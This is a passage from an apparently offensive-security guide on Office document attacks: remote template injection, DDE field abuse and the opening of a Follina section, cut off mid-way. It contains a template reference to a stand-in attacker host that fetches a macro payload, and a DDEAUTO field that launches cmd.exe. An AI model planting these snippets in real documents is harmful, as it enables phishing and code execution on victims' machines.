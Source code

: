Office documents can link to **external templates** (e.g., `.dotm`, `.xltm`) hosted on an attacker-controlled server.

**How It Works**

- Attacker crafts a Word document (`.docx`) that points to a remote template:
```xml
<w:attachedTemplate w:val="http://attacker.com/malicious_template.dotm"/>
```
- When the victim opens the document, Office fetches the remote template.
- If the template contains a macro it will be executed, it **bypasses initial security prompts** in some versions, as the template is fetched silently.

**Key Notes**

- **Macros in remote templates may run without a prompt**, depending on trust settings.
- This technique separates the **initial phish** from the **actual payload**, aiding evasion and modularity.

**Resources:**
- [The Mechanics of Remote Template Injection Attack](https://www.cyfirma.com/research/living-off-the-land-the-mechanics-of-remote-template-injection-attack/)
- [POC YOUTUBE](https://youtu.be/M5ktO-BwPwA?si=PrCblCwggvuKsXVc)

#### C.  DDE Abuse 

**DDE** is a legacy feature in Office for sharing data between applications like Excel and Word.

**How It Works**

- Attackers embed DDE fields in documents:
```
{DDEAUTO cmd.exe "/k calc.exe"}
```
- When the document is opened, Word/Excel tries to update the field.
- The user may see a prompt, but it’s not labeled clearly as "running code"

**Key Notes** 

- Doesn’t require macros or external files.
- Limited by modern Office versions, which now display warnings.
- Very effective in older Office installations and phishing campaigns with weak awareness.

**Resources:**
- [APT GROUPS uses DDE](https://unit42.paloaltonetworks.com/unit42-sofacy-groups-parallel-attacks/)
- [POC YOUTUBE](https://youtu.be/b-q_n1T_T7U?si=E5dPUsGTdrxgX4pZ)

#### D.  CVE-2022-30190 ( Follina )

**Follina** exploits Microsoft Word’s ability to download remote HTML content and the `ms-msdt:` protocol handler to achieve **remote code execution (RCE)**.

**How It Works**

- A malicious Word file references an external HTML file via a remote template.
- The HTML file triggers the `ms-msdt:` URI scheme, causing MSDT (Microsoft Support Diagnostic Tool) to execute attacker-supplied code.

**Key Notes**
